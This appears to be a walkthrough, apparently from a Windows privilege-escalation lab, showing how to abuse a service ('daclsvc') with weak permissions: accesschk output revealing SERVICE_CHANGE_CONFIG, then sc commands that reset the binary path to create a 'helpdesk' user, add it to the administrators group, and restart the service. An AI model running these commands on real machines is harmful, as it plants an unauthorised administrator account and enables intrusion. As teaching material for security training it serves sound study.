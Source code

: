 **Prerequisites:**

- `accesschk.exe` utility from Sysinternals suite.

**Steps:**

1. **Check Permissions:**

   - Run the following command to view the service's security descriptor:

     ```bash
     %USERPROFILE%\SysinternalsSuite\accesschk.exe -uwvc "normaluser" *
     ```

   - Look for this specific part of the output:

     ```bash
      Accesschk v6.15 - Reports effective permissions for securable objects
      Copyright (C) 2006-2022 Mark Russinovich
      Sysinternals - www.sysinternals.com
      
      RW daclsvc
              SERVICE_QUERY_STATUS
              SERVICE_QUERY_CONFIG
              SERVICE_CHANGE_CONFIG
              SERVICE_INTERROGATE
              SERVICE_ENUMERATE_DEPENDENTS
              SERVICE_START
              SERVICE_STOP
              READ_CONTROL
     ```

   - **Interpreting the results:**  
     The `SERVICE_CHANGE_CONFIG` permission means that any user, including the "normaluser" in this case, has the right to modify the service's configuration, including its binary path. This exposes the service to exploitation, allowing an attacker to run arbitrary commands with the service's privileges.

2. **Modify Service Path:**

   - Use the following command to change the binary path of the service to execute a command that creates a new user and adds them to the administrators group:

     ```bash
     sc config daclsvc binPath= "cmd.exe /c net user helpdesk L3tm3!n /add && net localgroup administrators helpdesk /add"
     ```

3. **Restart Service:**

   - Stop and start the service to execute the command:

     ```bash
     sc stop daclsvc
     sc start daclsvc
     ```

---
